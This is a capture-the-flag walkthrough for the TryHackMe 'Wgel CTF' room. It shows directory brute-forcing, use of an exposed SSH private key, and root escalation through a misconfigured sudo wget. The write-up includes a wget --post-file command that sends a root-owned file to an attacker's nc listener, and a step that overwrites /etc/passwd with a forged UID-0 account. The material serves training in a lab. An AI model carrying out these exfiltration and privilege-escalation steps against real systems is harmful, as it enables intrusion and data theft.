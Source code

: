 # Wgel CTF (THM)

- https://tryhackme.com/room/wgelctf
- March 4, 2023
- easy

---

## Enumeration

### Nmap Initial

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
   - Apache2 Ubuntu Default Page

### http

- directory brute forcing

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128
```

- `sitemap` directory found
- nothing special in this website
- brute force again with that sitemap

```sh
$ ffuf -u http://$IP/sitemap/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128
```

- found `.ssh` directory and found id_rsa and save it

![](images/2023-03-04-22-50-51.png)

- need to find username
- explore that website
- I tried to login with different names combinations but not success
- found a username `jessie` at `http://$IP` comment

![](images/2023-03-04-23-03-51.png)

## Get User Access

- enter ssh with jessie and with id_rsa
- don't forget to change chmod 600 to id_rsa

```sh
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

- find user flag

```sh
jessie@CorpOne:/tmp$ find /home/jessie/ -name *.txt
...
/home/jessie/Documents/user_flag.txt
```

## Get Root Access

- easy way to get the flag for this ctf is

  - post the root flag file from ssh shell to our local machine
  - user flag's name is user_flag.txt and I guess root flag may be root_flag.txt in root directory.

- listen at the local machine with nc like

```sh
$ nc -nvlp 80 > flag.txt
```

- then, in ssh shell,

```sh
jessie@CorpOne:/tmp$ sudo wget --post-file=/root/root_flag.txt http://10.11.8.57
```

- it will get the root flag

### to get root shell

- copy the contents from /etc/passwd file to local machine
- in passwd file, copy the root (first line) and paste at the bottom line
- change username to whatever
- then create password hash like this

```sh
$ openssl passwd -1 -salt random_salt tryhackme
$1$random_s$QVJQHRY2rSaXEDArHyI7Z/
```

```
...
singha:$1$random_s$QVJQHRY2rSaXEDArHyI7Z/:0:0:root:/root:/bin/bash
```

- in this password for this user is `tryhackme`
- then, create a local server and use wget with sudo access from the shell and get the passwd file in /etc/ directory

![](images/2023-03-04-23-27-17.png)

- note use `-O` flag to specify the file name or it will download as `passwd.1`, etc

---
